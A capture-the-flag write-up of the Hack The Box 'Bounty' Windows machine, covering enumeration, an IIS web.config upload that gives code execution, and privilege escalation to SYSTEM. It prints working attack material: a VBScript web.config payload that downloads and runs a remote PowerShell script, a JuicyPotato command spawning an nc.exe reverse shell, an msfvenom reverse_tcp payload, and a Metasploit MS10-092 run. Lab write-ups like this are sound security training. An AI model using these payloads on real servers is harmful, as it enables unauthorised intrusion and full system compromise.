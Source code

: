 ```yaml
---
title: "HTB Bounty Writeup"
date: 2023-08-28
tags: ["CTF","Security"]
description: "Good, Old Fashioned, Windows."
draft: false 
type: page
---
```


# HTB "Bounty" Writeup


This was a windows box that taught me some new techniques and refreshed some old ones.

## Enumeration

Started out with nmap and found only 80 open indicating a webserver.

```bash
# Nmap 7.94 scan initiated Sat Aug 26 12:43:21 2023 as: nmap -sC -sV -vv -oA bounty 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up, received syn-ack (0.041s latency).
Scanned at 2023-08-26 12:43:21 EDT for 16s
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Browsing to the page indicates only an image of a wizard, named merlin.

Now I decided to do some dirbusting, since I didn't have a hostname or any other ports.

```bash
[~/htb/bounty]$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/08/28 15:07:51 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/*checkout*.aspx      (Status: 400) [Size: 11]
/*docroot*.aspx       (Status: 400) [Size: 11]
/*.aspx               (Status: 400) [Size: 11]
/http%3A%2F%2Fwww.aspx (Status: 400) [Size: 11]
/http%3A.aspx         (Status: 400) [Size: 11]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/q%26a.aspx           (Status: 400) [Size: 11]
/**http%3a.aspx       (Status: 400) [Size: 11]
/*http%3A.aspx        (Status: 400) [Size: 11]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
```

This gave us two locations, `transfer.aspx` which was a file upload and `/uploadedfiles` which is the directory where we could find our uploaded files.

## Footfold

A quick test reveals that jpg files are allowed, while aspx files are being blocked. I got around the filter using .aspx.jpg but this wouldn't execute. Getting a common list of extensions from burp and testing them out, it looks like .config is allowed.

![](attachment/61d09f8523a6a2970890061e04b7e9a3.png)

I didn't really know what to do with this though, so I referred to the resourves from the walk through and found out that this is similar to overwriting the .htaccess files on a linux web server to execute code.
- https://github.com/JoshMorrison99/web.config-File-Upload-RCE-C:heck/blob/main/revshell.config
- https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/

I uploaded the following shell:

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')")
%>
```

The shell.ps1 file is the standard nishang one line shell.

Now we have code execution.
## Privesc

I went to get the flag, but alas, it wasn't there!

Turns out it was just hidden and could be revealed with some Powershell trickery (it is on my list to learn more powershell).

Now it was time to do some standard enumeration on the box.

Getting my users privileges revealed SeImpersonate, which is an indicator a Potato attack may be possible.

```
PS C:\users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I loaded up my potato, started up my listener, and then I was root.

```
PS C:\users\merlin\desktop> ./JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.19 7777" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

systeminfo (also the guide when I looked afterwards) revealed that this was a quite out of date version of windows, Windows 2008. We can run the metasploit exploit suggester module after getting a session and seeing what else we find

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=5555 -f exe > shell.exe
```

MS10-092 was one of many potential exploits and this one works.

```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.19:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Preparing payload at C:\Windows\TEMP\vVygyJpVGdTPU.exe
[*] Creating task: O0LGFkLqDWzc9
[*] Reading the task file contents from C:\Windows\system32\tasks\O0LGFkLqDWzc9...
[*] Original CRC32: 0xd2ff3655
[*] Final CRC32: 0xd2ff3655
[*] Writing our modified content back...
[*] Validating task: O0LGFkLqDWzc9
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Executing the task...
[*] Sending stage (240 bytes) to 10.10.10.93
[*] Command shell session 3 opened (10.10.14.19:6666 -> 10.10.10.93:49175) at 2023-08-28 16:04:39 -0400
[*] Deleting task O0LGFkLqDWzc9...


Shell Banner:
Microsoft Windows [Version 6.1.7600]
-----


C:\Windows\system32>whoami
whoami
nt authority\system
```

I got the flag at this point and got out of there.
